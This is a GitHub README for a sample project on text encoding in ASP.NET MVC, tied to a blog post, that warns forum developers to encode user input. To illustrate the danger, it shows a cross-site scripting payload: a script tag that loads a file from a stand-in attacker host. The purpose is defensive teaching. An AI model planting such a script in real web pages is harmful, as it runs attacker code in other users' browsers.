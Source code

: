 Text encoding in ASP.NET MVC by example
===================================

This GitHub project is the accompanying code for 
[my blog post](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)

See a live example at:

[http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/](http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/)

Here is what it is all about:

This sample covers the various ways in which you might handle 
text encoding in ASP.NET MVC. For example, if you were writing 
a forum web app, you should absolutely be paranoid about 
what your users are typing into your site. You need to be 
very careful about how you redisplay their input. 
For example, a friendly forum user might write something like:

    Nice post, thanks for sharing!

On the other hand, they may write:

    <script src="http://evilserver.com/xss.js"></script>
    <script>xss.doBadDeeds();</script>

If you turn around and show this "post" to your other uses, 
maybe they'll get hacked. At a minimum, the evil-doers 
could be a nuisance to your real users.

On the other hand, if you're building a CMS or utility 
helper method, you do not want to filter out the HTML a 
user might type. They probably need to enter some HTML
 which you'll want to show to all the other users. Same 
thing goes for code your app might generate.

There are at least three ways which MVC manages 
and encodes (or does not encode) text data. Knowing 
which scenario you're targeting allows you to choose 
the right option. We'll look at four examples in this post:

Keep reading at [http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)
